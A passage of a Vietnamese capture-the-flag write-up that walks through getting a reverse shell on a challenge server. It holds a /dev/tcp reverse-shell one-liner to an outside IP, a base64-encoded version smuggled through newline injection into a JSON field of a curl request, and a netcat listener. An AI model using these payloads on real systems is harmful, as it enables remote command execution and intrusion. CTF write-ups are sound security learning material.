     ![500](img/PRP201_8.png)

- Vậy là mình cần cách khác, nhưng trước tiên, phải chuẩn bị cái reverse shell đã :D

    ```shell
    sh -i >& /dev/tcp/34.92.153.161/8899 0>&1
    ```

- Có cả revshell của `bash`, `nc`, ..., tìm hiểu tại [đây](https://www.revshells.com/)

- Vẫn là tác giả đã gợi ý cho mình một cách để đẩy được revshell kia lên, sử dụng `base64`, chuyển đoạn shell ở trên thành `base64` encode, và đưa về dạng sau:

    ```shell
    echo "c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjEK" | base64 -d | bash
    ```

- Vậy là xong, giờ cần chuẩn bị request đầu tiên (hãy nhớ escape string :v):

    ```json
    {
        "dir" : "rev",
        "name" : "\necho \"c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjE=\" | base64 -d | bash\n",
        "command_log" : "rev",
        "url" : "http://localhost:8888/"
    }
    ```

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "rev","name" : "\necho \"c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjE=\" | base64 -d | bash\n","command_log" : "rev","url" : "http://localhost:8888/"}'
    ```

- Gửi đi, và trước khi đến với lần request thứ 2, mình phải tạo một listener trên máy của mình đã (thực ra là VPS mình mượn của một người bạn xứ cảng):

    ```shell
    nc -lvnp 8899
    ```

    ![listener](img/PRP201_9.png)

